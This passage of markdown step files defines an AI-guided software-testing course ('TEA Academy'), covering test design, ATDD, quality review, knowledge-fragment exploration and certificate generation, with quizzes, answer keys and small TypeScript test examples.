B) It prevents race conditions
C) It uses less memory
D) It's easier to write"

Correct: B

**Q3:** "What pattern does this teaching workflow use?
A) Page Object Model
B) Behavior Driven Development
C) Step-File Architecture
D) Test Pyramid"

Correct: C

Calculate score, handle <70% retry option.

### 8. Generate Session Notes

Create {sessionNotesFile} with:

- Session 3 content
- Topics: Fixtures, network-first, data factories, step-file architecture
- TEA docs referenced
- Knowledge fragments: fixture-architecture.md, network-first.md, data-factories.md
- Quiz results
- Next recommended: session-04-test-design

### 9. Update Progress (Completed)

Update session-03-architecture:

- `status: 'completed'`
- `completed_date: {current_date}`
- `score: {score}`
- `notes_artifact`

Increment sessions_completed, update completion_percentage.
Append 'step-04-session-03' to stepsCompleted.

### 10. Complete Message

"🎉 **Session 3 Complete!** Score: {score}/100
You understand TEA architecture patterns!
Progress: {completion_percentage}%"

### 11. Menu

[A] Advanced Elicitation [P] Party Mode [C] Continue to Session Menu

Return to {nextStepFile}

---

## 🚨 SYSTEM SUCCESS/FAILURE METRICS

### ✅ SUCCESS:

- Architecture patterns taught
- Quiz administered
- Notes generated
- Progress updated
- Returned to hub

### ❌ SYSTEM FAILURE:

- Skipping patterns
- Not generating notes
- Not updating progress

**Master Rule:** Teach patterns, quiz, update, return to hub.
```

## File: `src/workflows/testarch/bmad-teach-me-testing/steps-c/step-04-session-04.md`
```markdown
---
name: 'step-04-session-04'
description: 'Session 4: Test Design - Risk assessment, test design workflow (60 min)'

progressFile: '{test_artifacts}/teaching-progress/{user_name}-tea-progress.yaml'
sessionNotesTemplate: '../templates/session-notes-template.md'
sessionNotesFile: '{test_artifacts}/tea-academy/{user_name}/session-04-notes.md'
nextStepFile: './step-03-session-menu.md'
advancedElicitationTask: '{project-root}/_bmad/core/workflows/advanced-elicitation/workflow.xml'
partyModeWorkflow: '{project-root}/_bmad/core/workflows/party-mode/workflow.md'
---

# Step 4: Session 4 - Test Design

## STEP GOAL:

To teach risk assessment and coverage planning using the TEA Test Design workflow in a 60-minute session.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 🛑 NEVER generate content without user input
- 📖 CRITICAL: Read the complete step file before taking any action
- 🔄 CRITICAL: When loading next step with 'C', ensure entire file is read
- 📋 YOU ARE A FACILITATOR, not a content generator
- ✅ YOU MUST ALWAYS SPEAK OUTPUT In your Agent communication style with the config `{communication_language}`

### Role Reinforcement:

- ✅ You are a Master Test Architect and Teaching Guide
- ✅ We engage in collaborative learning
- ✅ You bring expertise in TEA methodology

### Step-Specific Rules:

- 🎯 Focus on Session 4 (Test Design)
- 💬 Teach workflow, provide examples

## EXECUTION PROTOCOLS:

- 🎯 Load docs just-in-time
- 💾 Generate notes
- 📖 Update progress
- ⏭️ Return to hub

## MANDATORY SEQUENCE

### 1. Welcome

"🧪 **Session 4: Test Design** (60 minutes)

**Objective:** Learn risk assessment and coverage planning

**What you'll learn:**

- Test Design workflow
- Risk/testability assessment
- Coverage planning with test levels
- Test priorities matrix

Let's plan some tests!"

### 2. Update Progress (Started)

Set session-04-test-design `status: 'in-progress'`, `started_date`.

### 3. Teaching: Test Design Workflow

"### 📐 Test Design Workflow

**Purpose:** Plan tests BEFORE writing them (design before code).

**Workflow Steps:**

1. **Load Context:** Understand feature/system
2. **Risk/Testability Assessment:** Score probability × impact
3. **Coverage Planning:** Determine what to test and how
4. **Generate Test Design Document:** Blueprint for implementation

**When to Use:**

- New features (epic/system level)
- Major refactors
- Quality gate before development

{Role-adapted example}

**Documentation:** <https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/how-to/workflows/run-test-design/>"

### 4. Teaching: Risk/Testability Assessment

"### ⚖️ Risk & Testability Assessment

**Risk Scoring:**

- **Probability:** How likely is this to fail? (Low/Medium/High)
- **Impact:** What happens if it fails? (Low/Medium/High)
- **Risk = Probability × Impact**

**Example: Login Feature**

- Probability: High (complex, authentication)
- Impact: High (business critical)
- **Risk: HIGH** → P0 priority

**Example: Tooltip Text**

- Probability: Low (simple rendering)
- Impact: Low (aesthetic only)
- **Risk: LOW** → P3 priority

**Testability:**

- Can we test this easily?
- Are there dependencies blocking us?
- Do we need test infrastructure first?

{Role-adapted example}

**Knowledge Fragments:** probability-impact.md, test-priorities-matrix.md"

### 5. Teaching: Coverage Planning

"### 📋 Coverage Planning

**Test Levels Framework:**

**Unit Tests:** Isolated functions/classes

- Fast, focused
- No external dependencies
- Example: Pure functions, business logic

**Integration Tests:** Multiple components together

- Database, API interactions
- Example: Service layer with DB

**E2E Tests:** Full user workflows

- Browser automation
- Example: Complete checkout flow

**Coverage Strategy:**

- **P0 features:** Unit + Integration + E2E (high confidence)
- **P1 features:** Integration + E2E (good coverage)
- **P2 features:** E2E or Integration (basic coverage)
- **P3 features:** Manual or skip (low priority)

{Role-adapted example}

**Knowledge Fragment:** test-levels-framework.md

**Documentation:** <https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/explanation/test-quality-standards/>"

### 6. Teaching: Test Priorities Matrix

"### 📊 Test Priorities Matrix

**P0-P3 Coverage Targets:**

| Priority | Unit | Integration | E2E | Manual |
| -------- | ---- | ----------- | --- | ------ |
| P0       | ✅   | ✅          | ✅  | ✅     |
| P1       | ✅   | ✅          | ✅  | -      |
| P2       | -    | ✅          | -   | ✅     |
| P3       | -    | -           | -   | ✅     |

**Goal:** 100% P0, 80% P1, 50% P2, 20% P3

{Role-adapted example}

**Knowledge Fragment:** test-priorities-matrix.md"

### 7. Quiz (3 questions)

**Q1:** "What does the Test Design workflow help you do?
A) Write tests faster
B) Plan tests BEFORE writing them
C) Run tests in parallel
D) Debug test failures"

Correct: B

**Q2:** "How do you calculate risk?
A) Probability + Impact
B) Probability × Impact
C) Probability - Impact
D) Probability / Impact"

Correct: B

**Q3:** "For P0 features, which test levels should you use?
A) Only E2E tests
B) Only unit tests
C) Unit + Integration + E2E (comprehensive)
D) Manual testing only"

Correct: C

Calculate score, handle <70% retry.

### 8. Generate Session Notes

Create {sessionNotesFile} with Session 4 content, docs, fragments, quiz.

### 9. Update Progress (Completed)

Update session-04-test-design: completed, score, notes.
Increment sessions_completed, update percentage.
Append 'step-04-session-04' to stepsCompleted.
Set next_recommended: 'session-05-atdd-automate'.

### 10. Complete Message

"🎉 **Session 4 Complete!** Score: {score}/100
You can now plan tests using risk assessment!
Progress: {completion_percentage}%"

### 11. Menu

[A] Advanced Elicitation [P] Party Mode [C] Continue to Session Menu

Return to {nextStepFile}.

---

## 🚨 SUCCESS METRICS

✅ Test Design workflow taught, quiz passed, notes generated, progress updated, returned to hub.

**Master Rule:** Teach planning, quiz, update, return.
```

## File: `src/workflows/testarch/bmad-teach-me-testing/steps-c/step-04-session-05.md`
```markdown
---
name: 'step-04-session-05'
description: 'Session 5: ATDD & Automate - TDD red-green approach, generate tests (60 min)'

progressFile: '{test_artifacts}/teaching-progress/{user_name}-tea-progress.yaml'
sessionNotesTemplate: '../templates/session-notes-template.md'
sessionNotesFile: '{test_artifacts}/tea-academy/{user_name}/session-05-notes.md'
nextStepFile: './step-03-session-menu.md'
advancedElicitationTask: '{project-root}/_bmad/core/workflows/advanced-elicitation/workflow.xml'
partyModeWorkflow: '{project-root}/_bmad/core/workflows/party-mode/workflow.md'
---

# Step 4: Session 5 - ATDD & Automate

## STEP GOAL:

To teach ATDD (red-green TDD) and Automate workflows for test generation in a 60-minute session.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 🛑 NEVER generate content without user input
- 📖 CRITICAL: Read complete step file before action
- ✅ YOU MUST ALWAYS SPEAK OUTPUT In {communication_language}

### Role Reinforcement:

- ✅ Master Test Architect and Teaching Guide
- ✅ Collaborative learning

### Step-Specific Rules:

- 🎯 Focus on Session 5 (ATDD & Automate)
- 💬 Teach TDD approach

## EXECUTION PROTOCOLS:

- 🎯 Load docs just-in-time
- 💾 Generate notes
- 📖 Update progress
- ⏭️ Return to hub

## MANDATORY SEQUENCE

### 1. Welcome

"🧪 **Session 5: ATDD & Automate** (60 minutes)

**Objective:** Generate tests with TDD red-green approach

**What you'll learn:**

- ATDD workflow (failing tests first)
- Automate workflow (expand coverage)
- Component TDD
- API testing patterns

Let's generate some tests!"

### 2. Update Progress (Started)

Load {progressFile} and update session-05-atdd-automate:

- Set `status: 'in-progress'`
- Set `started_date: {current_date}` if not already set

Save the updated progress file.

### 3. Teaching: ATDD Workflow

"### 🔴 ATDD: Acceptance-Driven Test Development

**TDD Red Phase:** Write failing tests FIRST

**ATDD Workflow:**

1. **Preflight:** Check prerequisites
2. **Test Strategy:** Define what to test
3. **Generate FAILING Tests:** Red phase (tests fail because code doesn't exist yet)
4. **Implement Code:** Green phase (make tests pass)

**Why Failing Tests First:**

- Validates tests actually test something
- Prevents false positives
- Drives implementation (tests define behavior)

{Role-adapted example}

**Documentation:** <https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/how-to/workflows/run-atdd/>"

### 4. Teaching: Automate Workflow

"### 🤖 Automate: Expand Test Coverage

**Purpose:** Generate tests for existing features

**Automate Workflow:**

1. **Identify Targets:** What needs testing
2. **Generate Tests:** API and/or E2E tests
3. **Review & Run:** Tests should pass (code already exists)

**Difference from ATDD:**

- ATDD: Tests first, then code (red → green)
- Automate: Code first, then tests (coverage expansion)

{Role-adapted example}

**Documentation:** <https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/how-to/workflows/run-automate/>"

### 5. Teaching: Component TDD

"### 🔄 Component TDD Red-Green Loop

**Pattern:**

1. **Red:** Write failing test
2. **Green:** Minimal code to pass
3. **Refactor:** Improve code, tests stay green
4. **Repeat:** Next requirement

**Example:**

```typescript
// RED: Test fails (function doesn't exist)
test('calculates total price', () => {
  expect(calculateTotal([10, 20])).toBe(30);
});

// GREEN: Minimal implementation
function calculateTotal(prices) {
  return prices.reduce((a, b) => a + b, 0);
}

// REFACTOR: Add validation, tests still green
```

{Role-adapted example}

**Knowledge Fragment:** component-tdd.md"

### 6. Teaching: API Testing Patterns

"### 🌐 API Testing Patterns

**Pure API Testing (no browser):**

- Fast execution
- Test business logic
- Validate responses
- Schema validation

**Pattern:**

```typescript
test('GET /users returns user list', async ({ request }) => {
  const response = await request.get('/api/users');
  expect(response.ok()).toBeTruthy();
  const users = await response.json();
  expect(users).toHaveLength(10);
});
```

{Role-adapted example}

**Knowledge Fragment:** api-testing-patterns.md, api-request.md"

### 7. Quiz (3 questions)

**Q1:** "What is the 'red' phase in TDD?
A) Tests fail (code doesn't exist yet)
B) Tests pass
C) Code is refactored
D) Tests are deleted"

Correct: A

**Q2:** "What's the difference between ATDD and Automate workflows?
A) ATDD generates E2E, Automate generates API tests
B) ATDD writes tests first (red phase), Automate tests existing code
C) ATDD is faster than Automate
D) They're the same workflow"

Correct: B

**Q3:** "Why use pure API tests without a browser?
A) They look prettier
B) They're easier to debug
C) They're faster and test business logic directly
D) They're required by TEA"

Correct: C

Calculate score, handle <70% retry.

### 8. Generate Session Notes

Create {sessionNotesFile} with Session 5 content:

- ATDD workflow (red-green TDD)
- Automate workflow (coverage expansion)
- Component TDD
- API testing patterns
- Docs: ATDD, Automate
- Fragments: component-tdd.md, api-testing-patterns.md, api-request.md
- Quiz results

### 9. Update Progress (Completed)

Update session-05-atdd-automate: completed, score, notes.
Increment sessions_completed, update percentage.
Append 'step-04-session-05' to stepsCompleted.
Set next_recommended: 'session-06-quality-trace'.

### 10. Complete Message

"🎉 **Session 5 Complete!** Score: {score}/100
You can now generate tests with ATDD and Automate!
Progress: {completion_percentage}%"

### 11. Menu

[A] Advanced Elicitation [P] Party Mode [C] Continue to Session Menu

Return to {nextStepFile}.

---

## 🚨 SUCCESS METRICS

✅ ATDD and Automate taught, TDD explained, quiz passed, notes generated, progress updated, returned to hub.
```

## File: `src/workflows/testarch/bmad-teach-me-testing/steps-c/step-04-session-06.md`
```markdown
---
name: 'step-04-session-06'
description: 'Session 6: Quality & Trace - Test review, traceability, quality metrics (45 min)'

progressFile: '{test_artifacts}/teaching-progress/{user_name}-tea-progress.yaml'
sessionNotesTemplate: '../templates/session-notes-template.md'
sessionNotesFile: '{test_artifacts}/tea-academy/{user_name}/session-06-notes.md'
nextStepFile: './step-03-session-menu.md'
advancedElicitationTask: '{project-root}/_bmad/core/workflows/advanced-elicitation/workflow.xml'
partyModeWorkflow: '{project-root}/_bmad/core/workflows/party-mode/workflow.md'
---

# Step 4: Session 6 - Quality & Trace

## STEP GOAL:

To teach test quality auditing and requirements traceability using Test Review and Trace workflows in a 45-minute session.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 🛑 NEVER generate _unsolicited_ content without user input (session flow content is allowed once session begins)
- 📖 CRITICAL: Read complete step file before action
- ✅ SPEAK OUTPUT In {communication_language}

### Role Reinforcement:

- ✅ Master Test Architect and Teaching Guide
- ✅ Collaborative learning

### Step-Specific Rules:

- 🎯 Focus on Session 6 (Quality & Trace)
- 💬 Teach quality metrics

## EXECUTION PROTOCOLS:

- 🎯 Load docs just-in-time
- 💾 Generate notes
- 📖 Update progress
- ⏭️ Return to hub

## MANDATORY SEQUENCE

### 1. Welcome

"🧪 **Session 6: Quality & Trace** (45 minutes)

**Objective:** Audit quality and ensure traceability

**What you'll learn:**

- Test Review workflow (quality scoring)
- 5 dimensions of test quality
- Trace workflow (requirements traceability)
- Release gate decisions

Let's ensure quality!"

### 2. Update Progress (Started)

Set session-06-quality-trace `status: 'in-progress'`.

### 3. Teaching: Test Review Workflow

"### 🔍 Test Review Workflow

**Purpose:** Audit test quality with 0-100 scoring

**5 Dimensions of Quality:**

**1. Determinism (0-100)**

- Tests pass/fail consistently
- No flakiness, no randomness
- Proper async handling

**2. Isolation (0-100)**

- Tests run independently
- No shared state
- Parallelizable

**3. Assertions (0-100)**

- Correct checks for expected behavior
- Meaningful assertions (not just presence)
- Fails for the right reasons

**4. Structure (0-100)**

- Readable test code
- Clear organization and naming
- Minimal duplication

**5. Performance (0-100)**

- Test execution speed
- Resource usage
- Parallel efficiency

**Overall Score = Average of 5 dimensions**

{Role-adapted example}

**Documentation:** <https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/how-to/workflows/run-test-review/>"

### 4. Teaching: Trace Workflow

"### 🔗 Trace Workflow: Requirements Traceability

**Purpose:** Map tests to requirements, make release gate decision

**Trace Workflow:**

1. **Load Context:** Understand acceptance criteria
2. **Discover Tests:** Find all test files
3. **Map Criteria:** Link tests to requirements
4. **Analyze Gaps:** What's not tested?
5. **Gate Decision:** GREEN (ship) or RED (block)

**Release Gate Logic:**

- **GREEN:** All P0/P1 criteria have tests, gaps are P2/P3
- **YELLOW:** Some P1 gaps, assess risk
- **RED:** P0 gaps exist, DO NOT SHIP

{Role-adapted example}

**Documentation:** <https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/how-to/workflows/run-trace/>"

### 5. Teaching: Quality Metrics

"### 📊 Quality Metrics That Matter

**Track:**

- **P0/P1 Coverage %** (not total line coverage)
- **Flakiness Rate** (flaky tests / total tests)
- **Test Execution Time** (feedback loop speed)
- **Determinism Score** (from Test Review)

**Don't Track (Vanity Metrics):**

- Total line coverage % (tells you nothing about risk)
- Number of tests (quantity ≠ quality)
- Test file count (irrelevant)

{Role-adapted example}

**Goal:** High P0/P1 coverage, zero flakiness, fast execution."

### 6. Quiz (3 questions)

**Q1:** "What are the 5 dimensions in Test Review workflow?
A) Speed, cost, coverage, bugs, time
B) Determinism, Isolation, Assertions, Structure, Performance
C) Unit, integration, E2E, manual, exploratory
D) P0, P1, P2, P3, P4"

Correct: B

**Q2:** "When should the Trace workflow gate decision be RED (block release)?
A) Any test failures exist
B) P0 gaps exist (critical requirements not tested)
C) Code coverage is below 80%
D) Tests are slow"

Correct: B

**Q3:** "Which metric matters most for quality?
A) Total line coverage %
B) Number of tests written
C) P0/P1 coverage %
D) Test file count"

Correct: C

Calculate score, handle <70% retry.

### 7. Generate Session Notes

Create {sessionNotesFile} with Session 6 content, Test Review + Trace workflows, quality metrics.

### 8. Update Progress (Completed)

Update session-06-quality-trace: completed, score, notes.
Increment sessions_completed, update percentage.
Append 'step-04-session-06' to stepsCompleted.
Set next_recommended: 'session-07-advanced'.

### 9. Complete Message

"🎉 **Session 6 Complete!** Score: {score}/100
You can now audit quality and ensure traceability!
Progress: {completion_percentage}%"

### 10. Menu

[A] Advanced Elicitation [P] Party Mode [C] Continue to Session Menu

Return to {nextStepFile}.

---

## 🚨 SUCCESS METRICS

✅ Test Review and Trace taught, quality dimensions explained, quiz passed, notes generated, returned to hub.
```

## File: `src/workflows/testarch/bmad-teach-me-testing/steps-c/step-04-session-07.md`
```markdown
---
name: 'step-04-session-07'
description: 'Session 7: Advanced Patterns - Menu-driven knowledge fragment exploration (ongoing)'

progressFile: '{test_artifacts}/teaching-progress/{user_name}-tea-progress.yaml'
sessionNotesTemplate: '../templates/session-notes-template.md'
sessionNotesFile: '{test_artifacts}/tea-academy/{user_name}/session-07-notes.md'
nextStepFile: './step-03-session-menu.md'
advancedElicitationTask: '{project-root}/_bmad/core/workflows/advanced-elicitation/workflow.xml'
partyModeWorkflow: '{project-root}/_bmad/core/workflows/party-mode/workflow.md'
---

# Step 4: Session 7 - Advanced Patterns

## STEP GOAL:

To provide menu-driven exploration of 42 TEA knowledge fragments organized by category, allowing deep-dive into specific advanced topics on-demand.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 🛑 NEVER generate content without user input
- 📖 CRITICAL: Read complete step file before action
- ✅ SPEAK OUTPUT In {communication_language}

### Role Reinforcement:

- ✅ Master Test Architect and Teaching Guide
- ✅ Collaborative exploration

### Step-Specific Rules:

- 🎯 Focus on Session 7 (Advanced Patterns exploration)
- 💬 Menu-driven, user chooses topics
- 📚 This session is ONGOING - users can explore multiple fragments

## EXECUTION PROTOCOLS:

- 🎯 Display fragment categories
- 💾 Generate notes after exploration
- 📖 Update progress when user exits
- ⏭️ Return to hub when done

## MANDATORY SEQUENCE

### 1. Welcome

"🧪 **Session 7: Advanced Patterns** (Ongoing Exploration)

**Objective:** Deep-dive into 42 TEA knowledge fragments

**This session is different:**

- Menu-driven exploration (you choose topics)
- Explore as many fragments as you want
- Can revisit this session anytime
- No quiz - this is reference learning

**42 Knowledge Fragments organized by category:**

Let's explore!"

### 2. Update Progress (Started)

Set session-07-advanced `status: 'in-progress'` (only first time).

### 3. Display Knowledge Fragment Categories

"### 📚 Knowledge Fragment Categories

**1. Testing Patterns (9 fragments)**

- fixture-architecture.md - Composable fixture patterns
- fixtures-composition.md - mergeTests composition patterns
- network-first.md - Network interception safeguards
- data-factories.md - Data seeding & setup
- component-tdd.md - TDD red-green loop
- api-testing-patterns.md - Pure API testing
- test-healing-patterns.md - Auto-fix common failures
- selector-resilience.md - Robust selectors
- timing-debugging.md - Race condition fixes

**2. Playwright Utils (19 fragments)**

- overview.md - Playwright Utils overview
- api-request.md - Typed HTTP client
- network-recorder.md - HAR record/playback
- intercept-network-call.md - Network spy/stub
- recurse.md - Async polling
- log.md - Report logging
- file-utils.md - CSV/XLSX/PDF validation
- burn-in.md - Smart test selection
- network-error-monitor.md - HTTP error detection
- contract-testing.md - Pact integration
- pactjs-utils-overview.md - Pact.js Utils overview
- pactjs-utils-consumer-helpers.md - Consumer-side Pact helpers
- pactjs-utils-provider-verifier.md - Provider verification
- pactjs-utils-request-filter.md - Auth injection request filter
- pact-mcp.md - SmartBear MCP for PactFlow
- pact-consumer-framework-setup.md - Consumer CDC framework setup
- pact-consumer-di.md - DI pattern for Pact consumers
- playwright-cli.md - CLI for AI browser automation
- visual-debugging.md - Trace viewer workflows

**3. Configuration & Governance (6 fragments)**

- playwright-config.md - Environment & timeout guardrails
- ci-burn-in.md - CI orchestration
- selective-testing.md - Tag/grep filters
- feature-flags.md - Governance & cleanup
- risk-governance.md - Scoring matrix & gates
- adr-quality-readiness-checklist.md - Quality readiness checklist

**4. Quality Frameworks (5 fragments)**

- test-quality.md - DoD execution limits
- test-levels-framework.md - Unit/Integration/E2E
- test-priorities-matrix.md - P0-P3 coverage targets
- probability-impact.md - Probability × impact scoring
- nfr-criteria.md - NFR assessment definitions

**5. Authentication & Security (3 fragments)**

- email-auth.md - Magic link extraction
- auth-session.md - Token persistence
- error-handling.md - Exception handling

**GitHub Repository:** <https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/tree/main/src/agents/bmad-tea/resources/knowledge>

**Select a category (1-5) or specific fragment to explore, or [X] to finish:**"

### 4. Fragment Exploration Loop

**Wait for user selection.**

**Handle selection:**

- **IF 1-5 (category):** Display all fragments in that category with descriptions, ask which fragment to explore
- **IF specific fragment name:** Load and present that fragment's content
- **IF X:** Proceed to step 5 (complete session)
- **IF Any other:** Help user, redisplay categories

**For each fragment explored:**

1. Present the fragment's key concepts
2. Provide role-adapted examples
3. Link to GitHub source
4. Ask: "Explore another fragment? [Y/N/X to finish]"
5. If Y: Redisplay categories
6. If N or X: Proceed to completion

**Track fragments explored** (for session notes).

### 5. Session Summary

After user selects X (finish exploration):

"### 🎯 Session 7 Summary

**Fragments Explored:** {count}

{List each fragment explored}

**Key Takeaways:**
{Summarize insights from explored fragments}

**Remember:** You can return to Session 7 anytime to explore more fragments!

**GitHub Knowledge Base:** <https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/tree/main/src/agents/bmad-tea/resources/knowledge>"

### 6. Generate Session Notes

Create {sessionNotesFile} with:

- Session 7 content
- List of fragments explored
- Key insights from each
- GitHub links
- No quiz (exploratory session)
- Score: 100 (completion based, not quiz based)

### 7. Update Progress (Completed)

Update session-07-advanced: completed, score: 100, notes.
Increment sessions_completed, update percentage.
Append 'step-04-session-07' to stepsCompleted.

**Check completion:**

- If sessions_completed == 7: Set next_recommended: 'completion'
- Otherwise: Recommend next incomplete session

### 8. Complete Message

"🎉 **Session 7 Complete!**

**Fragments Explored:** {count}

{If sessions_completed == 7:}
🏆 **Congratulations!** You've completed ALL 7 sessions!
Your completion certificate will be generated when you return to the menu.

{Otherwise:}
**Progress:** {completion_percentage}% complete ({sessions_completed} of 7 sessions)
You can return to Session 7 anytime to explore more fragments!"

### 9. Menu

[A] Advanced Elicitation [P] Party Mode [C] Continue to Session Menu

Return to {nextStepFile}.

---

## 🚨 SUCCESS METRICS

✅ Fragment categories displayed, user explored chosen fragments, notes generated with exploration summary, progress updated, returned to hub.

**Master Rule:** This session is exploratory and repeatable. User drives exploration, workflow facilitates.
```

## File: `src/workflows/testarch/bmad-teach-me-testing/steps-c/step-05-completion.md`
```markdown
---
name: 'step-05-completion'
description: 'Generate completion certificate, final progress update, congratulate learner'

progressFile: '{test_artifacts}/teaching-progress/{user_name}-tea-progress.yaml'
certificateTemplate: '../templates/certificate-template.md'
certificateFile: '{test_artifacts}/tea-academy/{user_name}/tea-completion-certificate.md'
---

# Step 5: Completion & Certificate Generation

## STEP GOAL:

To generate the TEA Academy completion certificate, update final progress, and congratulate the learner on completing all 7 sessions.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 🛑 NEVER generate content without user input
- 📖 CRITICAL: Read complete step file before action
- ✅ SPEAK OUTPUT In {communication_language}

### Role Reinforcement:

- ✅ Master Test Architect and Teaching Guide
- ✅ Celebrating completion

### Step-Specific Rules:

- 🎯 Focus on completion and celebration
- 🚫 FORBIDDEN to proceed without verifying all 7 sessions complete
- 💬 Approach: Congratulate, generate certificate, inspire next steps

## EXECUTION PROTOCOLS:

- 🎯 Verify all sessions complete
- 💾 Generate completion certificate
- 📖 Final progress update
- 🎉 This is the final step - no next step

## CONTEXT BOUNDARIES:

- Available context: Progress file with all 7 sessions completed
- Focus: Certificate generation and celebration
- Dependencies: All 7 sessions must be complete

## MANDATORY SEQUENCE

### 1. Verify All Sessions Complete

Load {progressFile} and check:

- All 7 sessions have `status: 'completed'`
- All 7 sessions have scores
- sessions_completed == 7

**If any session NOT complete:**

Display:

"⚠️ **Not all sessions complete!**

You still have {7 - sessions_completed} sessions remaining.

Please return to the session menu to complete the remaining sessions before generating your certificate."

**THEN:** Stop and do not proceed. This is an error state.

---

**If all 7 sessions complete:** Proceed to step 2.

### 2. Calculate Final Metrics

From progress file, calculate:

**Average Score:**

- Sum all 7 session scores
- Divide by 7
- Round to nearest integer

**Total Duration:**

- Calculate days between started_date and current_date
- Format as "{N} days" or "{N} weeks"

**Individual Session Scores:**

- Extract score for each session (session-01 through session-07)

### 3. Congratulations Message

Display:

"🏆 **CONGRATULATIONS, {user_name}!**

You've completed all 7 sessions of TEA Academy!

**Your Achievement:**

- **Started:** {started_date}
- **Completed:** {current_date}
- **Duration:** {total_duration}
- **Average Score:** {average_score}/100
- **Sessions Completed:** 7 of 7 (100%)

**Session Scores:**

- Session 1 (Quick Start): {session_01_score}/100
- Session 2 (Core Concepts): {session_02_score}/100
- Session 3 (Architecture): {session_03_score}/100
- Session 4 (Test Design): {session_04_score}/100
- Session 5 (ATDD & Automate): {session_05_score}/100
- Session 6 (Quality & Trace): {session_06_score}/100
- Session 7 (Advanced Patterns): {session_07_score}/100

Generating your completion certificate..."

### 4. Generate Completion Certificate

Load {certificateTemplate} and create {certificateFile} with:

```markdown
---
certificate_type: tea-academy-completion
user: { user_name }
role: { role }
completion_date: { current_date }
started_date: { started_date }
total_duration: { total_duration }
average_score: { average_score }
---

# 🏆 TEA Academy Completion Certificate

---

## Certificate of Completion

**This certifies that**

# {user_name}

**has successfully completed the TEA Academy testing curriculum**

---

### Program Details

**Role:** {role}
**Started:** {started_date}
**Completed:** {current_date}
**Total Duration:** {total_duration}
**Average Score:** {average_score}/100

---

### Sessions Completed

✅ **Session 1:** Quick Start (30 min) - Score: {session_01_score}/100
✅ **Session 2:** Core Concepts (45 min) - Score: {session_02_score}/100
✅ **Session 3:** Architecture & Patterns (60 min) - Score: {session_03_score}/100
✅ **Session 4:** Test Design (60 min) - Score: {session_04_score}/100
✅ **Session 5:** ATDD & Automate (60 min) - Score: {session_05_score}/100
✅ **Session 6:** Quality & Trace (45 min) - Score: {session_06_score}/100
✅ **Session 7:** Advanced Patterns (ongoing) - Score: {session_07_score}/100

---

### Skills Acquired

{user_name} has demonstrated proficiency in:

- ✅ **Testing Fundamentals:** Risk-based testing, test pyramid, test types, P0-P3 prioritization
- ✅ **TEA Methodology:** 9 workflows (Teach Me Testing, Framework, Test Design, ATDD, Automate, Test Review, Trace, NFR, CI)
- ✅ **Architecture Patterns:** Fixture composition, network-first patterns, data factories, step-file architecture
- ✅ **Test Design:** Risk assessment (Probability × Impact), coverage planning, test levels framework
- ✅ **Test Development:** ATDD red-green TDD approach, test automation, API testing patterns
- ✅ **Quality Assurance:** Test review (5 dimensions), traceability, release gates, quality metrics
- ✅ **Advanced Techniques:** Knowledge fragments explored, Playwright Utils integration

---

### Learning Artifacts

All session notes and progress tracking available at:
`{test_artifacts}/tea-academy/{user_name}/`

**Session Notes:**

- session-01-notes.md - Quick Start
- session-02-notes.md - Core Concepts
- session-03-notes.md - Architecture & Patterns
- session-04-notes.md - Test Design
- session-05-notes.md - ATDD & Automate
- session-06-notes.md - Quality & Trace
- session-07-notes.md - Advanced Patterns

**Progress File:**
`{test_artifacts}/teaching-progress/{user_name}-tea-progress.yaml`

---

### Next Steps

**Recommended Actions:**

1. **Apply TEA to your project:** Start with Framework setup workflow
2. **Run TEA workflows:** Test Design → ATDD/Automate → Test Review
3. **Share knowledge:** Help team members through TEA Academy
4. **Explore knowledge fragments:** 42 fragments for just-in-time learning
5. **Contribute improvements:** Share feedback on TEA methodology

**TEA Resources:**

- **Documentation:** https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/
- **Knowledge Base:** https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/reference/knowledge-base/
- **GitHub Fragments:** https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/tree/main/src/agents/bmad-tea/resources/knowledge

---

**Generated by:** TEA Academy - Teach Me Testing Workflow
**Module:** Test Architecture Enterprise (TEA)
**Completion Date:** {current_date}

---

🧪 **Master Test Architect and Quality Advisor**
```

Save certificate to {certificateFile}.

### 5. Update Progress File (Final)

Load {progressFile} and make final updates:

**Update session-07 (if not already):**

- `status: 'completed'`
- `completed_date: {current_date}`
- `score: 100` (exploratory session, completion based)
- `notes_artifact: '{sessionNotesFile}'`

**Update completion fields:**

- `sessions_completed: 7`
- `completion_percentage: 100`
- `certificate_generated: true`
- `certificate_path: '{certificateFile}'`
- `completion_date: {current_date}`

**Update stepsCompleted:**

- Append 'step-04-session-07' (if session 7 just completed)
- Append 'step-05-completion'
- Update lastStep: 'step-05-completion'

Save final progress file.

### 6. Display Certificate

Display the complete certificate content to the user.

### 7. Final Celebration

Display:

"🎉 **CONGRATULATIONS, {user_name}!** 🎉

You've successfully completed the entire TEA Academy curriculum!

**Your Achievement:**

- ✅ 7 sessions completed
- ✅ Average score: {average_score}/100
- ✅ {total_duration} of dedicated learning
- ✅ Certificate generated

**All Your Artifacts:**

- **Certificate:** {certificateFile}
- **Progress:** {progressFile}
- **Session Notes:** {test_artifacts}/tea-academy/{user_name}/

**You're now equipped to:**

- Write high-quality tests following TEA principles
- Use all 9 TEA workflows effectively
- Apply risk-based testing (P0-P3 prioritization)
- Implement architecture patterns (fixtures, network-first)
- Maintain quality through Test Review and Trace
- Explore 42 knowledge fragments as needed

**Next Steps:**

1. Apply TEA to your current project
2. Share this workflow with your team
3. Help onboard new team members
4. Continue learning through knowledge fragments

**Thank you for investing in testing excellence!** 🧪

---

**TEA Academy - Mission Accomplished** ✅"

### 8. Workflow Complete

**This is the final step - no menu, no next step.**

Workflow ends here. User can run the workflow again to re-take sessions or explore more fragments.

---

## 🚨 SYSTEM SUCCESS/FAILURE METRICS

### ✅ SUCCESS:

- All 7 sessions verified complete before certificate generation
